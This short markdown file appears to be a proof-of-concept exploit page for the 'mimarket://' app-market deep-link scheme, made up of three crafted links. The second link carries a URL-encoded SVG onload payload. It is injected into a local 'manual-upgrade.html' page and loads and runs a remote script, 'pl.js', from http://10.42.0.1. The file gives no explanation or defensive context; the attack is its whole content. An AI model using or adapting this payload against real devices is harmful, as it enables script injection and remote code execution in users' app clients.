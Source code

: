 # testtest


[1](mimarket://browse?title=aaa&url=target)

[2](mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo={"changeLog":"<svg onload%3D\"javascript:j%3Ddocument.createElement('script');j.src%3D'http://10.42.0.1/pl.js';document.getElementsByTagName('head')[0].appendChild(j);\" xmlns%3D\"http://www.w3.org/2000/svg\"></svg>"}&title=butts)

[3](mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo=&title=butts)
